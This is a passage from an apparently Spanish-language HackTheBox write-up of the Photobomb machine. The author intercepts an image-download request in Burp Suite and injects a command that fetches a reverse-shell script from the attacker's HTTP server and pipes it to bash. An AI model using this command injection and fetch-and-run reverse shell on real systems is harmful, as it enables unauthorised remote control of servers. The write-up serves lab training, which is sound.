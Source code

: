 ## Burpsuite [🔥](#burpsuite) {#burpsuite}


Se me ocurre abrir Burpsuite e interceptar la petición al hacer click en descargar la imágen.

![](/assets/images/HTB/Photobomb-HackTheBox/burp1.webp)

Tenemos la petición con el nombre de la imágen, la extensión de la imágen y sus dimensiones.

Podría intentar introducir comandos para obtener una reverse shell, asique mando la petición al repeater.

Creo una reverse shell en bash en mi máquina atacante.

![](/assets/images/HTB/Photobomb-HackTheBox/rev-bash.webp)

Lanzo un servidor de python3.

> `python3 -m http.server 8080`

Y desde el burp injecto el siguiente comando.

`curl+http://10.10.15.17:8080/rev-bash.sh+|bash+`
